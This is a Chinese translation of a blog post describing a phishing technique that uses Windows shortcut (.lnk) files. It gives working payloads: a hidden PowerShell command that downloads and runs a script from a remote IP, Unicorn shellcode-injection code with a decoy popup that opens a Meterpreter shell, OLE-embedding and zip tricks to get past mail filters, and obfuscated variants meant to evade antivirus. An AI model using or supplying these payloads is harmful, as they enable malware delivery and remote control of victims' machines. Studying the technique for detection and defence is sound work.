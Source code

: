 > 原文链接: https://www.anquanke.com//post/id/85248 


# 【技术分享】快捷方式：一种钓鱼攻击的新姿势


                                阅读量   
                                **89902**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：d.uijn.nl
                                <br>原文地址：[https://d.uijn.nl/2016/12/28/shortcuts-another-neat-phishing-trick/](https://d.uijn.nl/2016/12/28/shortcuts-another-neat-phishing-trick/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t019be5efadf359859c.jpg)](https://p4.ssl.qhimg.com/t019be5efadf359859c.jpg)



**翻译：**[**shan66******](http://bobao.360.cn/member/contribute?uid=2522399780)

**预估稿费：120RMB（不服你也来投稿啊！）**

**<strong><strong>投稿方式：发送邮件至**[**linwei#360.cn**](mailto:linwei@360.cn)**，或登陆**[**网页版**](http://bobao.360.cn/contribute/index)**在线投稿**</strong></strong>



**前言**

最近，我阅读了一篇关于勒索软件Locky使用Windows快捷方式文件感染用户的博客文章。微软的这篇博文讲述了大规模网络钓鱼攻击是如何利用zip文件来发送Windows快捷方式文件的，具体详情请访问[https://blogs.technet.microsoft.com/mmpc/2016/10/19/the-new-lnk-between-spam-and-locky-infection/](https://blogs.technet.microsoft.com/mmpc/2016/10/19/the-new-lnk-between-spam-and-locky-infection/)。这种传播技术基于这样一个事实：cmd.exe和powershell.exe都允许通过传递参数来执行命令。创建包含命令参数的快捷方式后，只需双击就能执行某些PowerShell操作。



**一种钓鱼攻击的新姿势 **

我们对各种钓鱼攻击以及与后门相关的东西进行大量分析后发现，它们通常需要借助于office的宏指令来利用PowerShell，或者借助某些格式的脚本，如.js/.wsf/.jse/.hta等等。但问题是，许多组织都已经通过组策略禁用了宏指令，并且不允许通过Web/电子邮件渠道来传输脚本文件。如果你还没有通过命令行来阻止Macro指令的执行的话，可以参考下面这篇文章，地址为[https://blogs.technet.microsoft.com/mmpc/2016/03/22/new-feature-in-office-2016-can-block-macros-and-help-prevent-infection/](https://blogs.technet.microsoft.com/mmpc/2016/03/22/new-feature-in-office-2016-can-block-macros-and-help-prevent-infection/)。

勒索软件Locky的传播采用的是下载然后执行的方法，由于相关文件会下载到硬盘上面，所以很容易被杀毒软件检测到。攻击者如果想要发动钓鱼攻击的话，必须设法躲避杀毒软件的追杀，所以，他们想到了使用使用lnk文件作为stager，加载另一个PowerShell脚本，然后让它来加载Meterpreter。为此，可以使用如下所示的快捷方式： 

```
%SystemRoot%system32WindowsPowerShellv1.0powershell.exe -windowstyle hidden -command "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.255.170/script');"
```

攻击者可以将第二阶段攻击代码托管在自己的网络服务器上，然后使用unicorn将Meterpreter的payload注入到内存。然后，可以结合使用一个弹出窗口，通知用户一切正常。因此，托管的“脚本”文件可以包含如下所示的内容： 

```
powershell -ExecutionPolicy bypass -window hidden -e &amp;lt;BASE64 ENCODED COMMAND&amp;gt;
```

需要注意的是，PowerShell通常要求命令采用unicode格式，所以最简单的做法是直接为PowerShell准备好base64编码的命令。否则，可以使用utf_16_le对命令进行相应的编码。对于弹出窗口，可以使用以下代码： 



```
#MessageBox
[System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") ; 
[System.Windows.Forms.MessageBox]::Show("Your system has now been enrolled, thank you for you cooperation.", "YourCompany Enrollment.") ;  
#Unicorn output
$XF3ZnA = '$a9wC = ''[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'';$w = Add-Type -memberDefinition $a9wC -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];[Byte[]]$z = 0xbf,0xbb,0x96,0xcd,0xd0,0xdb,0xc1,0xd9,0x74,0x24,0xf4,0x5d,0x2b,0xc9,0xb1,0x57,0x31,0x7d,0x15,0x83,0xc5,0x04,0x03,0x7d,0x11,0xe2,0x4e,0x6a,0x25,0x52,0xb0,0x93,0xb6,0x33,0x39,0x76,0x87,0x73,0x5d,0xf2,0xb8,0x43,0x16,0x56,0x35,0x2f,0x7a,0x43,0xce,0x5d,0x52,0x64,0x67,0xeb,0x84,0x4b,0x78,0x40,0xf4,0xca,0xfa,0x9b,0x28,0x2d,0xc2,0x53,0x3d,0x2c,0x03,0x89,0xcf,0x7c,0xdc,0xc5,0x7d,0x91,0x69,0x93,0xbd,0x1a,0x21,0x35,0xc5,0xff,0xf2,0x34,0xe4,0x51,0x88,0x6e,0x26,0x53,0x5d,0x1b,0x6f,0x4b,0x82,0x26,0x26,0xe0,0x70,0xdc,0xb9,0x20,0x49,0x1d,0x15,0x0d,0x65,0xec,0x64,0x49,0x42,0x0f,0x13,0xa3,0xb0,0xb2,0x23,0x70,0xca,0x68,0xa6,0x63,0x6c,0xfa,0x10,0x48,0x8c,0x2f,0xc6,0x1b,0x82,0x84,0x8d,0x44,0x87,0x1b,0x42,0xff,0xb3,0x90,0x65,0xd0,0x35,0xe2,0x41,0xf4,0x1e,0xb0,0xe8,0xad,0xfa,0x17,0x15,0xad,0xa4,0xc8,0xb3,0xa5,0x49,0x1c,0xce,0xe7,0x05,0x8c,0xb5,0x63,0xd6,0x38,0x42,0xe5,0xb8,0xd1,0xf8,0x9d,0x08,0x55,0x26,0x59,0x6e,0x4c,0x17,0xbe,0xc3,0x3c,0x04,0x13,0xb7,0xaa,0x90,0xc5,0x4e,0x8c,0x1b,0x3c,0xe3,0x81,0x89,0xbc,0x57,0x75,0x25,0x78,0x56,0x79,0xb5,0x96,0xd5,0x79,0xb5,0x66,0xc9,0x40,0xe7,0x57,0x23,0xd9,0x07,0xc8,0x23,0x4a,0x8e,0x77,0x75,0x8b,0x45,0x0e,0xbc,0x27,0x0d,0x11,0x73,0x28,0x49,0x42,0x20,0xfb,0x06,0x36,0x90,0x93,0x43,0xed,0x32,0x5f,0x6c,0xdb,0xdd,0xf5,0x98,0xbb,0x89,0x89,0xaf,0x43,0x4a,0x03,0x2f,0x29,0x4e,0x43,0xc5,0xb1,0x18,0x0b,0x6c,0x88,0x3a,0x4d,0x71,0xc1,0x10,0x01,0xde,0xb9,0xc0,0xcd,0xcd,0x3b,0xf5,0x76,0xf2,0x91,0x80,0x49,0x79,0x10,0xc4,0x3c,0x58,0x4c,0x2a,0x0b,0xf8,0xdb,0x35,0xa1,0x96,0xa3,0xa1,0x4a,0x76,0x24,0x32,0x23,0x76,0x24,0x72,0xb3,0x25,0x4c,0x2a,0x17,0x9a,0x69,0x35,0x82,0x8f,0x21,0x99,0xa4,0x48,0x92,0x75,0xb7,0xb6,0x1d,0x86,0xe4,0xe0,0x75,0x94,0x9c,0x85,0x64,0x67,0x75,0x10,0xa8,0xec,0xbb,0x91,0x2e,0x0c,0x87,0x20,0xf0,0x7b,0xe2,0x72,0x32,0xdc,0x04,0xf7,0x4b,0x1c,0x2b,0xc6,0x8a,0xd1,0xfa,0x19,0xdb,0x2d,0x2d,0x6b,0x16,0x7b,0x1f,0xba,0x6f,0xb3,0x5f;
$g = 0x1000;if ($z.Length -gt 0x1000)`{`$g = $z.Length`}`;$fRu=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) `{`$w::memset([IntPtr]($fRu.ToInt32()+$i), $z[$i], 1)`}`;$w::CreateThread(0,0,$fRu,0,0,0);for (;;)`{`Start-sleep 60`}`;';
$e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($XF3ZnA));$XF3Z = "-e ";if([IntPtr]::Size -eq 8)`{`$ZsQ = $env:SystemRoot + "syswow64WindowsPowerShellv1.0powershell";iex "&amp; $ZsQ $XF3Z $e"`}`else`{`;iex "&amp; powershell $XF3Z $e";`}` ;
```

上面的PowerShell代码会弹出一个含有Unicorn.py的输出的窗口，这就允许攻击者将二进制文件加载到内存中。

与基于脚本的攻击相比，快捷方式可以使用任意图标，这是一大优势。这样的话，我们可以给它指定一个吸引普通用户的图标，或者适合网络钓鱼场景的图标。

例如

[![](https://p0.ssl.qhimg.com/t01d1dc91703cd9cb0f.png)](https://p0.ssl.qhimg.com/t01d1dc91703cd9cb0f.png)

或

[![](https://p1.ssl.qhimg.com/t01b00e5cfee8478aee.png)](https://p1.ssl.qhimg.com/t01b00e5cfee8478aee.png)

所以，让我们总结一下：

用户点击快捷方式

PowerShell被执行

我们的脚本被下载并执行

我们收到meterpreter shell

用户点击并看到：

[![](https://p2.ssl.qhimg.com/t017fbb7cf0c7e5acf8.png)](https://p2.ssl.qhimg.com/t017fbb7cf0c7e5acf8.png)

一旦弹出窗口关闭，第二部分代码就会被执行，攻击者就能收到shell。

[![](https://p0.ssl.qhimg.com/t012dba58a482f7270b.png)](https://p0.ssl.qhimg.com/t012dba58a482f7270b.png)

由于当前版本的Outlook默认情况下会阻止lnk文件，所以可以考虑使用包含lnk文件的zip文件。实际上，攻击者可以通过文件下载方式来传播文件。为此，可以使用HTTPs Letsencrypt，一方面它是免费的，另一方面还能降低被检测到的可能性。

另一个有趣的方法是将文件作为OLE对象嵌入到office文档中。这种方法可以替代宏指令，同时还能尽量不引起用户的警觉。相对于双击作为嵌入对象的.exe文件来说，人们对于lnk文件的戒备心理明显要松懈得多。OLE对象的一大优点是，同样可以使用自定义图标：

[![](https://p0.ssl.qhimg.com/t015e63e72ff6dc5be7.png)](https://p0.ssl.qhimg.com/t015e63e72ff6dc5be7.png)

单击office文档中的图标，就会执行我们的PowerShell脚本。在上面的截图中，使用的是一个简单的Excel图标，当然，也使用按钮图标——它适用于文件解密或某种形式的“激活”场景。

当前，有些反病毒软件公司已经开始对一些基于Invoke-Expression的脚本进行检测了。Invoke-Obfuscation可以帮助绕过AV检测，攻击者可以利用Invoke-Obfuscation对他们的脚本进行迭代处理，例如可以把下列代码： 

```
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.255.170/script');
```

转换为： 

```
Invoke-Expression( ([Regex]::Matches(" ))93]rahC[ f-)';)`}`'+'0`{`tpi'+'rc'+'s/07'+'1.'+'552'+'.861.291//:ptth`}`0'+'`{`(g'+'nirt'+'Sda'+'oln'+'woD.'+')'+'tn'+'ei'+'lC'+'beW.teN.m'+'etsyS tcejbO'+'-weN('+' XE'+'I'((( XEI ",'.', 'RightToLeft')-Join'' ) )
```

继续转换为 :

```
IEX( -JoIn ('49@6eM76M6fM6b`{`65U2d`{`45@78`{`70@72Z65Z73Z73Z69`{`6f&amp;lt;6e@28`{`20@20M28@5b`{`52U65@67&amp;amp;65&amp;amp;78U5d@3a&amp;lt;3aU4d&amp;lt;61M74@63&amp;lt;68I65M73U28@22`{`20&amp;amp;29`{`29M39&amp;lt;33&amp;lt;5dM72I61U68M43Z5bU20&amp;lt;20@66Z2d&amp;amp;29I27U3b`{`29M7dZ27U2b&amp;lt;27Z30M7bM74M70&amp;lt;69&amp;amp;27I2bI27`{`72I63Z27M2b@27@73M2fZ30&amp;amp;37I27M2b@27&amp;lt;31`{`2eZ27U2bM27@35I3532Z27Z2bZ27Z2e@38I36@31@2eI32U39`{`31I2f&amp;lt;2f&amp;lt;3a&amp;amp;70I74&amp;amp;74I68I7d&amp;lt;30`{`27`{`2bZ27@7b&amp;lt;28U67Z27&amp;amp;2b@27@6e&amp;lt;69&amp;amp;72Z74I27I2bM27@53Z64&amp;amp;61M27I2bZ27`{`6f&amp;lt;6c`{`6e@27&amp;amp;2bU27&amp;lt;77M6f&amp;amp;44&amp;lt;2eZ27&amp;lt;2b`{`27`{`29I27&amp;lt;2bI27Z74`{`6e&amp;lt;27@2b&amp;lt;27M65I69M27@2bI27&amp;amp;6cI43M27M2b@27U62&amp;lt;65&amp;amp;57`{`2eI74&amp;lt;65`{`4e`{`2e&amp;lt;6d@27I2b&amp;lt;27I65`{`74I73&amp;amp;79I53I20&amp;lt;74Z63Z65@6a`{`62U4f&amp;lt;27`{`2bZ27`{`2d&amp;amp;77U65&amp;amp;4eI28I27&amp;amp;2b&amp;lt;27`{`20Z58I45&amp;amp;27Z2b&amp;lt;27&amp;amp;49@27U28`{`28`{`28&amp;lt;20`{`58&amp;amp;45U49Z20I22&amp;amp;2c&amp;lt;27@2eM27M2c`{`20@27&amp;amp;52&amp;lt;69&amp;lt;67U68&amp;lt;74Z54Z6f@4c&amp;amp;65M66I74I27@29&amp;amp;2dM4a@6f@69M6e`{`27`{`27@20M29`{`20@29'-sPLit '&amp;lt;' -SPLIt'I'-SpLIT'Z'-splIT'&amp;amp;'-SPLit'`{`' -sPLit'M'-SPliT'U'-SPlIt'@'|FoREaCH-oBjECt`{`( [COnveRT]::ToInT16( ( [StrinG]$_),16 )-As[char]) `}` ))
```

在混淆PowerShell代码方面，Invoke-Obfuscation是一个非常强大的工具，能够节约大量的时间！ 
